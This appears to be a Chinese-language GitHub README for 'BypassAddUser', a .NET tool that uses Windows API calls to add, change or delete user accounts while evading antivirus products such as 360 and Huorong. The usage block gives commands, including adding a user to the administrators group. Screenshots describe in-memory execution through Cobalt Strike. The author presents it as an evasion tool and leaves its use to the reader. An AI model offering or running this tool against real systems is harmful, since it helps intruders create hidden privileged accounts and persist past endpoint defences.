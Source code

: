 # BypassAddUser
调用Windows Api，绕过杀软添加用户，怎么去使用，就仁者见仁智者见智了

`.NET4.0+`

已测Win2008,Win2012,Win2016,Win10都没问题



**注意密码复杂性！！！**

**注意密码复杂性！！！**

**注意密码复杂性！！！**

### 2020.10.8更新：新增更改用户密码、删除用户功能

```
Usage: BypassAddUser.exe -u/-U username -p/-P password -g/-G groups
       BypassAddUser.exe -c/-C UserName NewPassword
       BypassAddUser.exe -d/-D UserName
Example: BypassAddUser.exe -u test -p testpass -g administrators
         BypassAddUser.exe -c test NewtestPass
         BypassAddUser.exe -d test
```

## 测试环境：360+火绒

![images](https://github.com/TryA9ain/BypassAddUser/blob/master/Pictures/Snipaste_2020-10-04_11-56-10.jpg)

![images](https://github.com/TryA9ain/BypassAddUser/blob/master/Pictures/Snipaste_2020-10-04_11-42-15.jpg)

使用CS来内存执行

![images](https://github.com/TryA9ain/BypassAddUser/blob/master/Pictures/Snipaste_2020-10-04_11-47-57.jpg)

![images](https://github.com/TryA9ain/BypassAddUser/blob/master/Pictures/Snipaste_2020-10-04_11-49-09.jpg)

![images](https://github.com/TryA9ain/BypassAddUser/blob/master/Pictures/Snipaste_2020-10-04_11-50-53.jpg)

![images](https://github.com/TryA9ain/BypassAddUser/blob/master/Pictures/Snipaste_2020-10-04_11-52-55.jpg)

## 参考链接
https://blog.csdn.net/weixin_34307464/article/details/94449261

https://docs.microsoft.com/en-us/windows/win32/api/lmaccess/

## 问题建议

欢迎大佬们提出问题或建议
